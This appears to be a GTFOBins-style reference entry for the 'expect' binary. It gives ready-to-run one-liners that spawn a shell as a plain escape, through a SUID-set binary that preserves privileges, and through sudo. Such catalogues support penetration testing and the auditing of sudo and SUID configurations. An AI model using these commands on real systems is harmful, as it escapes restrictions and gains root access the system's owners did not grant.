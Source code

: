 ```yaml
---
functions:
  execute-interactive:
  - code: expect -c 'spawn /bin/sh;interact'
  suid-enabled:
  - code: "./expect -c 'spawn /bin/sh -p;interact'"
  sudo-enabled:
  - code: sudo expect -c 'spawn /bin/sh;interact'
---
```

